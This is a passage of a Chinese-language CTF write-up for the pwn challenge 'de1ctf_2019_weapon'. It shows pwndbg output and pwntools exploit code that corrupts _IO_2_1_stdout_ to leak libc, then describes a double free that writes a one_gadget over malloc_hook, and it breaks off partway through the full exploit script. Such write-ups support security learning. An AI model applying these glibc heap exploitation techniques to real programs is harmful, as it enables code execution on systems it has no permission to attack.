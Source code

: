 修改后

```c
pwndbg> p &_IO_2_1_stdout_
$2 = (struct _IO_FILE_plus *) 0x7fd4e9ee8620 <_IO_2_1_stdout_>
pwndbg> x/32gx 0x7fd4e9ee8620-0x10 
0x7fd4e9ee8610 <_IO_2_1_stderr_+208>:	0x0000000000000000	0x0000000000000000
0x7fd4e9ee8620 <_IO_2_1_stdout_>:	0x00000000fbad3c80	0x00007fd4e9ee86a3

```

不难发现被覆盖了，这样就能过检测，这个检测在往后的版本的libc里面反而没有了，可以参考我博客的广东省省赛类似的Ubuntu20的题不需要过这个检测

```python
add(0x38,2,'aaa')
	edit(3,'\xdd\x85')
	payload1='\x00'*0x33+p64(0xfbad3c80)+3*p64(0)+p8(0)#0x33 p &_IO_2_1_stdout=0x7fc3e534c620  0x620-0x5dd-0x10=0x33
	add(0x60,8,'aaa')

	add(0x60,9,payload1)
	#gdb.attach(p)

	libcbase=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c5600#_IO_2_1_stderr_+192-libc
	#gdb.attach(p)
	print(hex(libcbase))
	malloc_hook=libcbase+libc.sym['__malloc_hook']
	o_g=[0x45216,0x4526a,0xf02a4,0xf1147]
	one_gadget=libcbase+o_g[3]
```

然后有了基地址就直接常规的double free攻击malloc_hook-0x23写入onegadget

exp

```python
#!/usr/bin/python2
from pwn import *
p=0
def pwn():
	global p
	p=process('./de1ctf_2019_weapon')
	#p=remote('node4.buuoj.cn',27513)
	elf=ELF('./de1ctf_2019_weapon')
	libc=elf.libc

	def add(size,idx,name):
		p.sendlineafter('>>','1')
		p.sendlineafter(': ',str(size))
		p.sendlineafter(': ',str(idx))
		p.sendafter(':',name)

	def delete(idx):
		p.sendlineafter('>>','2')
		p.sendlineafter(':',str(idx))

	def edit(idx,data):
		p.sendlineafter('>>','3')
		p.sendlineafter(': ',str(idx))
		p.sendafter(':',data)

 
	payload=p64(0)*1+p64(0x71)
	add(0x28,0,payload)
	add(0x18,1,'cccc')
	add(0x38,2,'dddd')
	add(0x60,3,'eeee')
```